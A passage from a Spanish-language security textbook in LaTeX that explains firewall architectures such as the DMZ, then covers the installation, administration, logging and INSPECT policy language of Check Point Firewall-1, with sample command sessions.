son reales, se solventan tomando las precauciones necesarias a la hora de 
dise\~nar e implantar el cortafuegos y definiendo una pol\'{\i}tica de seguridad
correcta. De cualquier forma, en la pr\'actica esta arquitectura de cortafuegos 
est\'a cada vez m\'as en desuso debido a que presenta dos puntos \'unicos de
fallo, el {\it choke} y el basti\'on: si un atacante consigue controlar 
cualquiera de ellos, tiene acceso a toda la red protegida; por tanto, es m\'as
popular, y recomendable, una arquitectura {\it screened subnet}, de la que
vamos a hablar a continuaci\'on.
\subsection{Screened Subnet (DMZ)}
La arquitectura {\it Screened Subnet}, tambi\'en conocida como red perim\'etrica
o {\it De-Militarized Zone} (DMZ) es con diferencia la m\'as utilizada e 
implantada hoy en d\'{\i}a, ya que a\~nade un nivel de seguridad en las 
arquitecturas de cortafuegos situando una subred (DMZ) entre las redes externa
e interna, de forma que se consiguen reducir los efectos de un ataque exitoso al
{\it host} basti\'on: como hemos venido comentando, en los modelos anteriores 
toda la seguridad se centraba
en el basti\'on\footnote{Excepto en el primero, compuesto \'unicamente por un
{\it choke}.}, de forma que si la seguridad del mismo se ve\'{\i}a comprometida,
la amenaza se extend\'{\i}a autom\'aticamente al resto de la red. Como la
m\'aquina basti\'on es un objetivo interesante para muchos piratas, la 
arquitectura DMZ intenta aislarla en una red perim\'etrica de forma que un 
intruso que accede a esta m\'aquina no consiga un acceso total a la subred 
protegida.\\
\\{\it Screened subnet} es la arquitectura m\'as segura, pero tambi\'en la m\'as
compleja; se utilizan dos {\it routers}, denominados exterior e interior, 
conectados ambos a la red perim\'etrica como se muestra en la figura \ref{dmz}. 
En esta red perim\'etrica, que constituye el sistema cortafuegos, se incluye el 
{\it host} basti\'on y tambi\'en se podr\'{\i}an incluir sistemas que requieran 
un acceso controlado, como bater\'{\i}as de m\'odems o el servidor de correo, 
que ser\'an los \'unicos elementos visibles desde fuera de nuestra red. El
{\it router} exterior tiene como misi\'on bloquear el tr\'afico no deseado en
ambos sentidos (hacia la red perim\'etrica y hacia la red externa), mientras
que el interior hace lo mismo pero con el tr\'afico entre la red interna y la
perim\'etrica: as\'{\i}, un atacante habr\'{\i}a de romper la seguridad
de ambos {\it routers} para acceder a la red protegida; incluso es posible 
implementar una zona desmilitarizada con un
\'unico {\it router} que posea tres o m\'as interfaces de red, pero en este caso
si se compromete este \'unico elemento se rompe toda nuestra seguridad, frente
al caso general en que hay que comprometer ambos, tanto el externo como el
interno. Tambi\'en podemos, si necesitamos mayores niveles niveles de 
seguridad, definir varias redes 
perim\'etricas en serie, situando los servicios que requieran de menor 
fiabilidad en las redes m\'as externas: as\'{\i}, el atacante habr\'a de saltar 
por todas y cada una de ellas para acceder a nuestros equipos; evidentemente,
si en cada red perim\'etrica se siguen las mismas reglas de filtrado, niveles
adicionales no proporcionan mayor seguridad. En el cap\'{\i}tulo 4 de 
\cite{kn:bre95} podemos consultar con m\'as detalle las funciones de cada
elemento del sistema cortafuegos, as\'{\i} como aspectos de su 
implementaci\'on y configuraci\'on.\\
\begin{figure}
\begin{center}

\includegraphics[width=\textwidth]{dmz.png}
\caption{Arquitectura DMZ.}
\label{dmz}
\end{center}
\end{figure}
\\Esta arquitectura de cortafuegos elimina los puntos \'unicos de fallo 
presentes en las anteriores: antes de llegar al basti\'on (por definici\'on, el
sistema m\'as vulnerable) un atacante ha de saltarse las medidas de seguridad 
impuestas por
el enrutador externo. Si lo consigue, como hemos aislado la m\'aquina basti\'on 
en una subred estamos reduciendo el impacto de un atacante que logre 
controlarlo, ya que antes de llegar a la red interna ha de comprometer 
tambi\'en al segundo {\it router}; en este caso extremo (si un pirata logra 
comprometer el segundo {\it router}), la arquitectura DMZ no es mejor que un 
{\it screened host}. Por supuesto, en cualquiera de los tres casos (compromiso
del {\it router} externo, del {\it host} basti\'on, o del {\it router} interno)
las actividades de un pirata pueden violar nuestra seguridad, pero de forma
parcial: por ejemplo, simplemente accediendo al primer enrutador puede aislar 
toda nuestra organizaci\'on del exterior, creando una negaci\'on de servicio 
importante, pero esto suele ser menos grave que si lograra acceso a la red
protegida.\\
\\Aunque, como hemos dicho antes, la arquitectura DMZ es la que mayores niveles
de seguridad puede proporcionar, no se trata de la panacea de los cortafuegos.
Evidentemente existen problemas relacionados con este modelo: por ejemplo, se 
puede utilizar el {\it firewall} para que los servicios fiables pasen 
directamente sin acceder al basti\'on, lo que puede dar lugar a un 
incumplimiento de la pol\'{\i}tica de la organizaci\'on. Un segundo problema,
quiz\'as m\'as grave, es que la mayor parte de la seguridad reside en los {\it
routers} utilizados; como hemos dicho antes las reglas de filtrado sobre 
estos elementos pueden ser complicadas de configurar y comprobar, lo que puede
dar lugar a errores que abran importantes brechas de seguridad en nuestro 
sistema.\\
\subsection{Otras arquitecturas}
Algo que puede incrementar en gran medida nuestra seguridad y al mismo tiempo
facilitar la administraci\'on de los cortafuegos es utilizar un basti\'on
diferente para cada protocolo o servicio en lugar de uno s\'olo; sin embargo,
esta arquitectura presenta el grave inconveniente de la cantidad de m\'aquinas
necesarias para implementar el {\it firewall}, lo que impide que muchas 
organizaciones la puedan adoptar. Una variante m\'as barata consistir\'{\i}a en
utilizar un \'unico basti\'on pero servidores {\it proxy} diferentes para
cada servicio ofertado.\\
\\Cada d\'{\i}a es m\'as habitual en todo tipo de organizaciones 
dividir su red en diferentes subredes; esto es especialmente aplicable en
entornos de I+D o empresas medianas, donde con frecuencia se han de conectar 
campus o sucursales separadas geogr\'aficamente, edificios o laboratorios 
diferentes, etc. En esta situaci\'on
es recomendable incrementar los niveles de seguridad de las zonas m\'as
comprometidas (por ejemplo, un servidor donde se almacenen expedientes o datos
administrativos del personal) insertando cortafuegos internos entre estas zonas
y el resto de la red. Aparte de incrementar la seguridad, {\it firewalls} 
internos son especialmente recomendables en zonas de la red desde la que no se
permite {\it a priori} la conexi\'on con Internet, como laboratorios de
pr\'acticas: un simple PC con Linux o FreeBSD que deniegue cualquier conexi\'on
con el exterior del campus va a ser suficiente para evitar que los usuarios 
se dediquen a conectar a p\'aginas {\it web} o {\it chats} desde equipos no
destinados a estos usos. Concretamente en el caso de redes de universidades 
ser\'{\i}a muy
interesante filtrar las conexiones a {\sc irc} o a {\sc mud}s, ya sea a nivel
de aulas o laboratorios o a nivel de todo el campus, denegando en el {\it 
router} de salida de la red hacia INet cualquier tr\'afico a los puertos 6667,
8888 y similares; aunque realmente esto no evitar\'{\i}a que todos los
usuarios siguieran jugando desde los equipos de la universidad -- por ejemplo 
a trav\'es de un servidor que disponga de conexi\'on en otros puertos --, 
s\'{\i} conseguir\'{\i}a que la mayor parte de ellos dejara de hacerlo.

\cleardoublepage
\chapter{Cortafuegos: Casos de estudio}
\section{\it Firewall-1}
\subsection{Introducci\'on}
Quiz\'as el cortafuegos m\'as utilizado actualmente en Internet es {\it 
FireWall-1}, desarrollado por la empresa israel\'{\i} {\it Check Point Software 
Technologies Ltd.} ({\tt http://www.checkpoint.com/}). Este {\it firewall} se
ejecuta sobre diferentes sistemas Unix (Solaris, AIX, Linux y HP-UX), as\'{\i}
como sobre Windows NT y tambi\'en en `cajas negras' como las desarrolladas
por Nokia, que poseen un sistema operativo propio (IPSO) basado en FreeBSD.\\
\\Quiz\'as la caracter\'{\i}stica m\'as importante de {\it Firewall-1} sea que
incorpora una nueva arquitectura dentro del mundo de los cortafuegos: la 
inspecci\'on con estado ({\it stateful inspection}). {\it Firewall-1} inserta 
un m\'odulo denominado {\it Inspection Module} en el n\'ucleo del sistema 
operativo sobre el que se instala, en el nivel {\it software} m\'as bajo 
posible (por debajo incluso del nivel de red), tal y como se muestra en la 
figura \ref{fw1}; as\'{\i}, desde ese nivel tan bajo, {\it Firewall-1} puede 
interceptar y analizar todos los paquetes antes de que lleguen al resto del 
sistema: se garantiza que ning\'un paquete es procesado por ninguno de los 
protocolos superiores hasta que {\it Firewall-1} comprueba que no viola la 
pol\'{\i}tica de seguridad definida en el cortafuegos.\\
\begin{figure}
\begin{center}

\includegraphics[width=\textwidth]{fw1.png}
\caption{Ubicaci\'on del {\it Inspection Module} dentro de la pila de 
protocolos {\sc osi}.}
\label{fw1}
\end{center}
\end{figure}
\\{\it Firewall-1} es capaz de analizar la informaci\'on de una trama en cada
uno de los siete niveles OSI y a la vez analizar informaci\'on de estado 
registrada de anteriores comunicaciones; el cortafuegos entiende la estructura
de los diferentes protocolos {\sc tcp/ip} -- incluso de los ubicados en la
capa de aplicaci\'on --, de forma que el {\it Inspection Module} extrae 
la informaci\'on relevante de cada paquete para construir tablas din\'amicas
que se actualizan constantemente, tablas que el {\it firewall} utiliza para
analizar comunicaciones posteriores. En el m\'odulo de inspecci\'on se 
implantan las pol\'{\i}ticas de seguridad definidas en cada organizaci\'on
mediante un sencillo lenguaje denominado {\sc inspect}, tambi\'en dise\~nado
por {\it Check Point Software Technologies}; desde un c\'omodo interfaz se 
genera un {\it script} en este lenguaje, que se compila y se inserta en el {\it 
Inspection Module}.\\
\\La gran potencia y flexibilidad de {\it Firewall-1} hacen imposible que se
aqu\'{\i} se puedan explicar con el suficiente nivel de detalle todas sus 
caracter\'{\i}sticas; para m\'as informaci\'on, excelentes lecturas pueden ser 
\cite{kn:gon99} o (m\'as reciente) \cite{kn:phone02}. Tambi\'en la 
documentaci\'on que acompa\~na al producto, y la disponible en el servidor
{\it web} de {\it Check Point Software Technologies}, es de gran ayuda para
cualquier administrador que utilice este cortafuegos en su red.
\subsection{Arquitectura}
{\it Firewall-1} est\'a basado en dos m\'odulos independientes: el de gesti\'on
(o control)
y el de cortafuegos. El primero de ellos est\'a formado por el gestor gr\'afico
de pol\'{\i}ticas (incluyendo el visor de registros) y el servidor de gesti\'on,
t\'{\i}picamente un demonio ({\tt fwm}) que se ejecuta en una m\'aquina Unix. El
gestor gr\'afico puede ser un cliente Unix (con X/Motif) o Windows 9x/NT; es
triste que a estas alturas no exista un cliente gr\'afico para Linux, 
encontr\'andose \'unicamente para otros Unices, y que adem\'as el cliente 
X/Motif contenga errores y sea bastante ineficiente, lo que motiva que se 
tienda a utilizar clientes Windows para gestionar los cortafuegos. En cualquier 
caso, el gestor gr\'afico puede ejecutarse en la misma m\'aquina que el 
servidor de gesti\'on o en una diferente, mediante un esquema cliente/servidor. 
Este gestor no hace m\'as que presentar de una forma c\'omoda al administrador 
del cortafuegos la informaci\'on generada por el servidor de gesti\'on (el 
demonio {\tt fwm}), que es el verdadero `coraz\'on' de la gesti\'on del {\it 
firewall} y que permite administrar diferentes sistemas con m\'odulo de 
cortafuegos (en castellano plano, diferentes cortafuegos) desde una misma 
estaci\'on de control.\\
\\Por otra parte, el m\'odulo de cortafuegos est\'a formado por el {\it 
inspection module}, los demonios de {\it Firewall-1} y los servidores de 
seguridad del {\it firewall}. El {\it inspection module} se instala como ya
hemos comentado (figura \ref{fw1}) entre el nivel de enlace y el nivel de red, 
por completo antes de la pila de protocolos {\sc tcp/ip}, con lo que se asegura
que {\it Firewall-1} analiza todos y cada uno de los paquetes que pasan por el
sistema. Los demonios del {\it firewall} son simples programas con diferentes
funciones, como la comunicaci\'on con el servidor de gesti\'on o la carga de las
reglas definidas para el cortafuegos en el {\it inspection module}. Finalmente, 
los servidores de seguridad son m\'odulos que se invocan cuando 
as\'{\i} se define en la pol\'{\i}tica (por ejemplo, cuando la acci\'on asociada
a una determinada regla es {\tt User Authentication}), y que realizan tareas
de autenticaci\'on y seguridad de contenidos; la conexi\'on entre origen y 
destino se divide en dos, una entre el origen y el servidor de seguridad y otra
entre este y el destino.
\subsection{Instalaci\'on}
Antes de instalar {\it Firewall-1} en un sistema Unix es {\bf muy importante} 
deshabilitar en el n\'ucleo del operativo el {\it IP Forwarding}, de forma que
todo el reenv\'{\i}o de tramas sea gestionado por el {\it software} de
cortafuegos (esta opci\'on se define durante la instalaci\'on). Esto permite 
que el reenv\'{\i}o s\'olo sea posible si el {\it
firewall} est\'a ejecut\'andose -- es decir, protegiendo nuestra red --, lo que
imposibilita que la m\'aquina reenv\'{\i}e paquetes si {\it Firewall-1} no
est\'a activo, algo que como vimos a la hora de hablar de diferentes clones de
Unix puede ser problem\'atico para nuestra seguridad.\\
\\Teniendo en cuenta la consideraci\'on anterior, y asumiendo que en la 
m\'aquina donde vamos a instalar {\it Firewall-1} no existen problemas ajenos
al cortafuegos (conectividad, resoluci\'on de nombres, reconocimiento de 
interfaces de red\ldots), la instalaci\'on del {\it software} no ofrece ninguna 
dificultad: simplemente hemos de instalar los paquetes correspondientes con las 
\'ordenes habituales de cada Unix ({\tt pkgadd} en Solaris, {\tt swinstall} en
HP-UX\ldots) o, en algunas versiones del programa, ejecutar la orden {\tt 
fwinstall}, que no es m\'as que una instalaci\'on seguida de una 
configuraci\'on del cortafuegos equivalente a la que veremos a continuaci\'on.\\
\\Una vez instalado el {\it firewall} hemos de configurarlo; para ello no 
tenemos m\'as que ejecutar la orden {\tt fwconfig} (versi\'on 4.0) o {\tt 
cpconfig} (versi\'on 4.1), que paso a paso nos guiar\'a a trav\'es de la 
configuraci\'on (o reconfiguraci\'on, una vez el cortafuegos est\'e ya
funcionando) de {\it Firewall-1}: 
\begin{quote}
\begin{verbatim}
anita:/# fwconfig

Welcome to VPN-1 & FireWall-1 Configuration Program
=================================================
This program will let you re-configure
your VPN-1 & FireWall-1 configuration.


Configuration Options:
----------------------
(1)  Licenses
(2)  Administrators
(3)  GUI clients
(4)  Remote Modules
(5)  SMTP Server
(6)  SNMP Extension
(7)  Groups
(8)  IP Forwarding
(9)  Default Filter
(10) CA Keys

(11) Exit

Enter your choice (1-11) : 11

Thank You...
anita:/#
\end{verbatim}
\end{quote}
Como podemos ver, esta herramienta permite realizar tareas como la 
instalaci\'on de licencias, la planificaci\'on del {\it software} en el 
arranque de la m\'aquina o la definici\'on de m\'odulos de {\it firewall} 
remotos. Aunque todo es 
vital para el correcto funcionamiento del cortafuegos, existen dos apartados 
especialmente importantes para la posterior gesti\'on del {\it firewall}: la
definici\'on de administradores y la definici\'on de estaciones que actuar\'an 
como clientes gr\'aficos; si no definimos al menos un administrador y una
estaci\'on cliente, no podremos acceder al cortafuegos para gestionarlo 
(evidentemente, en esta situaci\'on no estar\'{\i}a todo perdido, ya que siempre
podemos a\~nadir ambos elementos, as\'{\i} como modificar su relaci\'on, {\it a 
posteriori}).\\
\\El administrador o administradores que definamos ser\'an los encargados de 
acceder a las pol\'{\i}ticas del cortafuegos a trav\'es del gestor gr\'afico, 
\'unicamente desde las estaciones que hayamos definido como cliente. Podemos
a\~nadir elementos a ambas listas (la de administradores y la de estaciones 
gr\'aficas) ejecutando de nuevo {\tt fwconfig} o {\tt cpconfig}, o bien de forma
m\'as directa ejecutando la orden {\tt fwm} (para a\~nadir administradores) y
modificando el archivo {\tt \$FWDIR/conf/gui-clients} (para a\~nadir clientes
gr\'aficos); este archivo no es m\'as que un fichero de texto donde se listan
las direcciones IP (o los nombres DNS) de las m\'aquinas que pueden acceder
a gestionar el {\it firewall}:
\begin{quote}
\begin{verbatim}
anita:/# cat $FWDIR/conf/gui-clients
192.168.0.1
192.168.0.2
192.168.0.3
158.42.22.41
anita:/# fwm -p
FireWall-1 Remote Manager Users:
================================
toni (Read/Write)
avh (Read/Write)

Total of 2 users
anita:/# fwm -a admin -wr
Password:
Verify Password:
User admin added succesfully
anita:/# fwm -p
FireWall-1 Remote Manager Users:
================================
toni (Read/Write)
avh (Read/Write)
admin (Read Only)

Total of 3 users
anita:/# fwm -r prova
User prova removed succesfully
anita:/#
\end{verbatim}
\end{quote}
Para acabar con la instalaci\'on de {\it Firewall-1} es necesario definir la
variable de entorno {\tt \$FWDIR}, que apuntar\'a al directorio {\tt /etc/fw/},
y a\~nadirla en los {\it scripts} de inicio de sesi\'on correspondientes. 
Tambi\'en es recomendable a\~nadir el directorio {\tt \$FWDIR/bin/} a nuestro
{\it \$PATH}, ya que ah\'{\i} se ubican las utilidades de gesti\'on del
cortafuegos, y hacer lo mismo con {\tt \$FWDIR/man/} y la variable {\it 
\$MANPATH}, ya que en este directorio se encuentran las p\'aginas de manual del
{\it firewall}.\\
\\Antes de finalizar este punto quiz\'as es necesaria una peque\~na 
advertencia: como {\it Firewall-1} inserta
m\'odulos en el n\'ucleo del operativo, es dependiente de la versi\'on del
{\it kernel} utilizada. Todas las versiones m\'as o menos modernas funcionan
correctamente sobre Solaris 2.6 y la \'ultima tambi\'en sobre Solaris 7; no 
obstante, sobre este \'ultimo el resto de versiones no funcionan bien, aunque
se instalen correctamente. Es posible, y esto lo digo por experiencia, que la
m\'aquina no arranque tras instalar el {\it software} debido a las 
modificaciones de los {\it scripts} de arranque (concretamente los ubicados en
{\tt /etc/rcS.d/}), que al ser invocados desde {\tt /sbin/rcS} producen errores
que impiden montar correctamente los discos y proseguir el arranque; para 
solucionar estos problemas, lo m\'as r\'apido es eliminar cualquier 
modificaci\'on que la instalaci\'on de {\it Firewall-1} haya realizado sobre
los programas ejecutados al iniciar el sistema. 
\subsection{Gesti\'on}
Como cualquier sistema cortafuegos, {\it Firewall-1} permite al usuario definir
una pol\'{\i}tica de seguridad formada por reglas, cada una de las cuales se 
basa principalmente en el origen, destino y servicio de una determinada trama. 
El conjunto de reglas se examina de arriba hacia abajo, de forma que si una 
determinada regla hace {\it match} con el paquete que se est\'a inspeccionando,
se aplica y las que quedan por debajo de ella ni siquiera se examinan; como
deber\'{\i}a suceder en cualquier sistema cortafuegos, las tramas no 
expl\'{\i}citamente aceptadas se rechazan.\\
\\La gesti\'on de {\it Firewall-1} suele ser completamente gr\'afica, a trav\'es
de dos interfaces principales: el de gesti\'on de pol\'{\i}ticas ({\tt fwui}) y 
el visor de {\it logs} ({\tt fwlv}, mostrado en la figura \ref{fwlv}). En 
versiones m\'as recientes del {\it firewall} ambos se unifican en {\tt 
fwpolicy}, basado en X/Motif (los anteriores se basan en OpenLook), m\'as 
c\'omodo e intuitivo que sus predecesores. En cualquier caso, siempre tenemos la
opci\'on de trabajar en modo texto mediante la orden {\tt fw}, aunque esta
opci\'on no suele ser la habitual entre los administradores de {\it 
Firewall-1}.\\
\\Para gestionar el cortafuegos, cada uno de los administradores definidos 
anteriormente puede conectar desde las estaciones gr\'aficas autorizadas al 
servidor de gesti\'on (m\'aquina en la que se ha instalado el m\'odulo de 
gesti\'on de {\it Firewall-1}), para lo cual necesita autenticarse mediante su 
nombre de usuario y su clave; una vez conectado, si su acceso es de lectura y 
escritura, puede comenzar a trabajar con el cortafuegos. Lo primero que ver\'a 
ser\'a la pol\'{\i}tica del {\it firewall} (de hecho, ha conectado con el 
editor de pol\'{\i}ticas de {\it Firewall-1}); estas pol\'{\i}ticas no son m\'as
que ficheros ubicados en {\tt \$FWDIR/conf/}, con un nombre finalizado en {\tt
`.W'}, que se compilan y cargan en los sistemas donde est\'a instalado el 
m\'odulo de cortafuegos.\\
\\Desde el editor gr\'afico, las pol\'{\i}ticas se ven como un conjunto de 
reglas que se examina de arriba a abajo hasta que una de ellas hace {\it match}
con el paquete que se est\'a analizando (como ya hemos comentado, si ninguna de
ellas hace {\it match}, el paquete se deniega). Cada una de estas reglas est\'a
numerada en funci\'on del orden de aplicaci\'on, y sus campos principales son 
los habituales en cualquier cortafuegos: origen, destino, servicio y acci\'on.
Adem\'as, existen un campo que indica si se ha de registrar la trama ({\tt 
`Track'}), otro para determinar d\'onde se ha de instalar ({\tt `Install On'}), 
otro para especificar el tiempo que la regla estar\'a activa ({\tt `Time'}) y
finalmente un campo de texto donde se pueden incluir comentarios.\\
\\Evidentemente, como sucede en cualquier {\it firewall}, tanto el campo origen 
como el destino pueden ser sistemas concretos o redes completas. En {\it 
Firewall-1} ambos elementos, as\'{\i} como los servicios, se manejan como {\bf 
objetos}: elementos definidos por el administrador e identificados mediante un
nombre -- en principio algo f\'acilmente identificable por el mismo --, con una
serie de propiedades determinadas. Sin duda, en el caso de los {\it hosts} o las
redes la propiedad m\'as importante es la direcci\'on IP o la direcci\'on de 
red con su m\'ascara correspondiente asociadas al objeto; en el caso de los
servicios, definidos tambi\'en por un nombre, la caracter\'{\i}stica m\'as
importante es el puerto o rango de puertos asociado al mismo. Por ejemplo, 
podemos definir el objeto {\it `servidor1'}, con su IP correspondiente, el 
objeto {\it DMZ}, con su direcci\'on de red y m\'ascara asociada, o el objeto
{\it ssh}, con su puerto concreto; en todos los casos, el nombre dice mucho 
m\'as al encargado de gestionar el cortafuegos que una simple IP, direcci\'on 
de red o n\'umero de puerto, lo que facilita enormemente la administraci\'on 
del {\it firewall}.\\
\\El campo {\tt `Action'} de cada regla define qu\'e se ha de hacer con una
conexi\'on cuando hace {\it match} con la regla; al igual que en la mayor parte
de cortafuegos del mercado, tres son las acciones principales a tomar: {\tt
`Accept'}, si dejamos que la conexi\'on se establezca a trav\'es del {\it 
firewall}, {\tt `Reject'}, si la rechazamos, y {\tt `Drop'}, si la rechazamos 
sin notificarlo al origen. Para las conexiones que no permitimos, esta \'ultima
suele ser la mejor opci\'on, ya que el paquete se elimina sin ning\'un tipo de
notificaci\'on hacia el origen; si utiliz\'aramos {\tt `Reject'} s\'{\i} que
informar\'{\i}amos de las conexiones no permitidas, lo que puede ayudar a un
atacante a conocer tanto nuestra pol\'{\i}tica de seguridad como la 
topolog\'{\i}a de nuestra red.\\
\\Por su parte, el campo {\tt `Track'} de una regla determina una medida a 
tomar cuando un paquete hace {\it match} con la regla en cuesti\'on: ninguna
medida (campo vac\'{\i}o), un registro en diferentes formatos ({\tt `Short 
Log'}, {\tt `Long Log'} y {\tt `Accounting'}), una alerta de seguridad, un 
correo electr\'onico, un {\it trap} {\sc snmp} o una acci\'on definida por el
usuario (estas cuatro \'ultimas acciones han de ser configuradas por el 
administrador del cortafuegos). Evidentemente, este campo es muy \'util para 
obtener informaci\'on acerca de posibles hechos que traten de comprometer 
nuestra seguridad, tanto en un {\it log} habitual como para implantar en el {\it
firewall} un sistema de detecci\'on de intrusos y respuesta autom\'atica en
tiempo real (\cite{kn:spi01b}); en el punto \ref{fw1log} hablaremos con m\'as
detalle del sistema de {\it log} de {\it Firewall-1}.\\
\\Una vez que hemos definido una pol\'{\i}tica -- un conjunto de reglas -- lo
m\'as habitual es aplicarla en un sistema con el m\'odulo de cortafuegos de {\it
Firewall-1} instalado en \'el; hemos de recordar que habitualmente trabajamos 
con un simple {\bf editor} de pol\'{\i}ticas, de forma que las modificaciones 
que realicemos sobre una determinada pol\'{\i}tica (a\~nadir o eliminar reglas,
definir nuevos objetos, etc.) no tendr\'an ning\'un efecto hasta que esa 
pol\'{\i}tica se instale en el cortafuegos correspondiente. Para instalar una
pol\'{\i}tica no tenemos m\'as que escoger la opci\'on del men\'u del gestor
gr\'afico adecuada; a partir de ese momento, {\it Firewall-1} verifica que la 
pol\'{\i}tica escogida es l\'ogica y consistente, genera y compila el c\'odigo 
{\sc inspect} (en el punto \ref{inspect} hablamos m\'{\i}nimamente de este
lenguaje) correspondiente para cada objeto sobre el que vayamos a instalarla, y 
carga dicho c\'odigo en el objeto donde se encuentra el m\'odulo de cortafuegos
a trav\'es de un canal seguro.
\begin{figure}

\includegraphics[width=\textwidth]{fwlv.png}
\caption{Una imagen de {\tt fwlv}.}
\label{fwlv}
\end{figure}
\subsection{El sistema de {\it log}}
\label{fw1log}
Cuando una regla tiene definido en el campo {\tt Track} que guarde un {\it log},
siempre que una trama haga {\it match} con la misma se generar\'a un registro
del evento, tanto si la conexi\'on se acepta como si se deniega. A diferencia 
de la mayor parte del {\it software} de un sistema Unix, los {\it 
logs} de {\it Firewall-1} no son simples ficheros ASCII, sino que se almacenan
en un formato propio dentro del directorio {\tt \$FWDIR/logs/}. Para 
consultarlos hemos de utilizar o bien el visor gr\'afico {\tt fwlv} (figura
\ref{fwlv}) o bien la orden {\tt fw}, que tambi\'en permite rotarlos ({\tt `fw
logswitch'}) y exportarlos a ficheros ASCII ({\tt `fw logexport'}):
\begin{quote}
\begin{verbatim}
anita:/etc/fw/bin# ./fw log
Date: May 2, 2000
 3:28:43 ctl    anita      >daemon started sending log to localhost
 3:49:27 ctl    anita      >daemon started sending log to localhost
 4:30:30 ctl    anita      >daemon started sending log to localhost
anita:/etc/fw/bin# ./fw logexport -o /etc/fw/logs/salida.ascii
Starting pass 1 of the log file.
Starting pass 2 of the log file..
   100.00% of log file processed.

anita:/etc/fw/bin# cat /etc/fw/logs/salida.ascii
num;date;time;orig;type;action;alert;i/f_name;i/f_dir;sys_msgs
0;2May2000; 3:28:43;anita;control;ctl;;daemon;inbound;started sending log
to localhost
1;2May2000; 3:49:27;anita;control;ctl;;daemon;inbound;started sending log
to localhost
2;2May2000; 4:30:30;anita;control;ctl;;daemon;inbound;started sending log
to localhost

anita:/etc/fw/bin#
\end{verbatim}
\end{quote}
Evidentemente, rotar los {\it logs} o exportarlos a ficheros ASCII nos puede
resultar muy \'util a la hora de realizar estad\'{\i}sticas o tareas 
similares, ya que podemos
separar los registros por d\'{\i}as, meses, horas\ldots o cualquier otro 
par\'ametro que se nos ocurra y utilizar las herramientas propias de cualquier
Unix ({\tt awk}, {\tt perl}, {\tt grep}\ldots) sobre el fichero de texto para
extraer el tipo de registros que nos interese; no obstante, esto a todas luces
presenta un grave inconveniente: los registros de {\it Firewall-1}, con lo que
hemos visto hasta ahora, no pueden utilizarse para monitorizar el tr\'afico en 
tiempo real o para ofrecer una respuesta autom\'atica ante un ataque. Por
supuesto, la detecci\'on de un ataque {\it offline}, sobre un fichero de
registro hist\'orico (por ejemplo, podemos buscar tr\'afico sospechoso cada 
noche sobre el {\it log} del d\'{\i}a anterior) es muy importante, pero sin
duda lo es m\'as el que seamos capaces de detectar ese mismo ataque justo
cuando se est\'a produciendo, para ofrecer as\'{\i} una respuesta inmediata y
minimizar el riesgo asociado a las actividades de un pirata; cuanto m\'as
tardemos, m\'as posibilidades tiene el atacante de tener \'exito en su tarea
(\cite{kn:coh99}).\\
\\Para implantar un sistema de respuesta autom\'atica en tiempo real, o 
simplemente para visualizar los registros generados por el cortafuegos tambi\'en
en tiempo real podemos utilizar la orden {\tt `fw log'}, que con las opciones
adecuadas imprimir\'a en pantalla cualquier registro que se genere al mismo 
tiempo que la entrada se guarda en el fichero de {\it log} correspondiente con 
el formato propio de {\it Firewall-1}:
\begin{quote}
\begin{verbatim}
anita:/# fw log -f -n |head -3
2:21:12 drop   anita   >nei0 proto tcp src 192.168.0.3 dst 158.42.22.41 \
service finger s_port 13000 len 40 rule 5 
2:22:23 drop   anita   >nei0 proto tcp src 192.168.0.10  dst 158.42.2.1 \
service NetBus s_port 32344 len 40 rule 6 
2:22:45 drop   anita   >nei0 proto tcp src 192.168.0.1  dst 192.168.2.3 \
service echo-tcp s_port 30298 len 40 rule 5
anita:/#
\end{verbatim}
\end{quote}
Como vemos, la salida de esta orden ya puede ser
procesada desde l\'{\i}nea de comandos con las herramientas habituales de Unix
para implantar as\'{\i} la respuesta autom\'atica, por ejemplo mediante {\tt
`fw sam'}, que bloquea todo el tr\'afico proveniente de una determinada 
direcci\'on en el cortafuegos, de forma permanente o temporal 
(\cite{kn:spi01b}). 
\subsection{\sc inspect}
\label{inspect}
Como ya hemos comentado, al instalar una pol\'{\i}tica en un cortafuegos 
(m\'aquina con el m\'odulo de {\it firewall}) desde el servidor de gesti\'on
(m\'aquina donde se ha instalado el {\it Management Module}) {\it Firewall-1} 
genera en el mismo servidor de gesti\'on un c\'odigo -- un {\it script}, un
simple fichero ASCII editable -- en un lenguaje de alto nivel propio de {\it 
Firewall-1}: este lenguaje se denomina {\sc inspect}, es orientado a objetos, y 
est\'a dise\~nado expl\'{\i}citamente 
para trabajar con cortafuegos, lo que permite por ejemplo programar las 
acciones t\'{\i}picas de un {\it firewall}: detener una trama, aceptarla, 
generar un registro\ldots\\ 
\\El {\it script} de {\sc inspect} generado a partir de la pol\'{\i}tica editada
en el gestor gr\'afico (o desde l\'{\i}nea de comandos, mediante la orden {\tt
`fw gen'}) es un fichero {\tt `.pf'} que se encuentra en {\tt
\$FWDIR/conf/}; este archivo es compilado mediante {\tt fwc} y a partir de \'el 
se genera un c\'odigo (un fichero {\tt `.fc'}) dentro de {\tt \$FWDIR/tmp/}
junto a otros archivos adicionales en el mismo directorio. Como hemos dicho el
c\'odigo generado se transmite al m\'odulo 
de cortafuegos a trav\'es de un canal seguro, y en este m\'odulo los demonios de
